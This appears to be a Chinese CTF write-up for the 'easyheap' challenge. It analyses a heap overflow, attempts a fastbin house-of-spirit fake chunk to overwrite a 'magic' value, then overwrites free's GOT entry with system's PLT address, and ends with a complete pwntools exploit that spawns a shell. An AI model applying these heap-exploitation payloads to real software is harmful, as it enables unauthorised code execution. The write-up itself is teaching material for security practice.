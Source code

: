 ## 0x001 程序分析

通过checksec查看程序开启的保护，可见程序开启了NX和Canary。

![](1.png)

分析程序可知，该程序可以根据输入来选择对堆的操作

![](2.png)

其中main函数中还有个隐藏功能

![](3.png)

如果输入的选项为4869，则会判断magic的大小，如果magic大于0x1305，则会进入 **l33t** 函数中，在 **l33t** 函数中调用 **system("cat /home/pwn/flag")** 命令打印flag信息。

下面来分析下对堆操作的各个功能函数。

### create_heap函数

![](4.png)

该函数中首先循环遍历 **heaparray** 数组，判断其中是否有值，如果没有，则会根据输入的大小创建一个堆块，并将堆块地址保存到 **heaparray** 数组中。

### edit_heap函数

![](5.png)

该函数根据输入的 **heaparray** 数组下标定位相应的堆块地址，然后根据输入的大小，编辑堆块内容。

### delete_heap函数

![](6.png)

该函数根据输入的 **heaparray** 数组下标定位相应的堆块地址，释放堆块地址后，将该位置的值置为0。

## 0x002 漏洞分析

根据上述分析可知，在edit_heap函数中存在堆溢出漏洞。因为在edit_heap函数中对堆块内容进行编辑时，没有对输入的长度进行限制，导致如果编辑时输入的长度大于创建堆块时输入的长度，则会造成溢出。

## 0x003 漏洞利用

根据上述分析可知，该程序存在堆溢出漏洞，并且关闭了地址随机化，那么可以通过house of spirit来达到任意地址写的目的。

前面分析了，在main函数中个隐藏内容，如果输入的选项为4869，并且 **magic** 大于0x1305，则会进入 **l33t** 函数中，调用 **system("cat /home/pwn/flag")** 命令打印flag信息。

那么根据house of spirit的利用条件，需要在 **magic** 附近伪造大小符合fastbin的堆块，然后释放堆块使其进入fastbins中，再次申请得到伪造堆块，就可以修改 **magic** 的内容了。

使用GDB动态调试，寻找 **magic** 附近符合要求的堆块

![](7.png)

根据堆块的结构，可以在 **magic-0x13** 处找到一个大小符合 fastbin 的堆块，该堆块的大小为 0x7f，地址为0x6020ad。

那么接下来就是首先创建三个大小为0x60的堆块（使其chunk->size在0x70-0x80之间，配合伪造堆块的大小），释放最后一个堆块
```
create(0x60, b"A")
create(0x60, b"A")
create(0x60, b"A")
delete(2)
```

此时堆布局如下：

![](8.png)

接下来通过编辑chunk1，覆盖chunk2->fd为伪造的堆块地址。
```
payload = p64(0) * 13 + p64(0x71) + p64(0x6020ad)
edit(1, payload)
```

此时的堆布局如下：

![](9.png)

可以看到此时的fastbins已经有两个地址了，那么在重新申请两个相应大小的堆块，就会得到伪造的堆块地址。
```
create(0x60, b"A")
create(0x60, b"A")
```

此时的堆布局以及 **heaparray** 数组内容如下：

![](10.png)

可以看到，伪造的堆地址已经在 **heaparray** 数组中了，那么此时通过编辑chunk3，就可以修改 **magic** 的值
```
payload = b"A" * 3 + p64(0xffff)
edit(3, payload)
p.sendlineafter("choice :", str(4869))
```

然后选择输入处输入4869即可

![](11.png)

好吧，被骗了，根本就没有/home/pwn/flag这个文件，**133t** 这个函数的目的可能只是提供一个system函数。

这个方法行不通就只能换个思路，已经能够达成任意地址写，而且程序没有开启RELRO，那么也可以通过修改got表中的函数地址为system函数地址来获取系统权限。在这里选择修改的是free_got的地址，由于程序中没有提供 **"/bin/sh"** 字符串，还需要输入一个 **"/bin/sh"** 字符串。

接下来的思路就是，通过伪造的堆块，将 **heaparray[0]** 中保存的地址覆盖为free_got的地址，然后通过编辑chunk0，就可以将free_got中free的真实地址改为system_plt地址，这样在调用free()是就会执行system()。参数可以将 **heaparray** 中一个堆块的内容改为 **"/bin/sh"** 字符串，这样在执行 **delete_heap** 释放堆块时，就可以将 **"/bin/sh"** 的地址作为参数传给system，执行 **system("/bin/sh")** 命令。

回到重新申请两个相应大小的堆块，得到伪造的堆块地址处，这里需要在创建堆块时，将 **"/bin/sh"** 先写入。
```
create(0x60, b"/bin/sh\x00")
create(0x60, b"A")
```

此时堆布局如下：

![](12.png)

可以看到已经将 **"/bin/sh"** 写入到了chunk2中。然后通过编辑伪造堆块，修改 **heaparray[0]** 为free_got，然后编辑chunk3，将free_got中的地址改为system_plt地址。
```
payload = b"A" * 3 + p64(0) * 4 + p64(elf.got["free"])
edit(3, payload)
payload = p64(elf.plt["system"])
edit(0, payload)
```

此时堆布局如下：

![](13.png)

这是再运行 **delete_heap** 释放chunk2，即可执行system("/bin/sh")命令。

最终exp如下：
```
from pwn import *

p = process("./easyheap")
elf = ELF("easyheap")

def create(size, payload):
    p.sendlineafter("choice :", str(1))
    p.sendlineafter("Heap : ", str(size))
    p.sendlineafter("heap:", payload)

def edit(idx, payload):
    p.sendlineafter("choice :", str(2))
    p.sendlineafter("Index :", str(idx))
    p.sendlineafter("Heap : ", str(len(payload)+1))
    p.sendlineafter("heap : ", payload)

def delete(idx):
    p.sendlineafter("choice :", str(3))
    p.sendlineafter("Index :", str(idx))
    
create(0x60, b"A")
create(0x60, b"A")
create(0x60, b"A")
delete(2)

payload = p64(0) * 13 + p64(0x71) + p64(0x6020ad)
edit(1, payload)

create(0x60, b"/bin/sh\x00")
create(0x60, b"A")

payload = b"A" * 3 + p64(0) * 4 + p64(elf.got["free"])
edit(3, payload)
payload = p64(elf.plt["system"])
edit(0, payload)

delete(2)
p.interactive()
```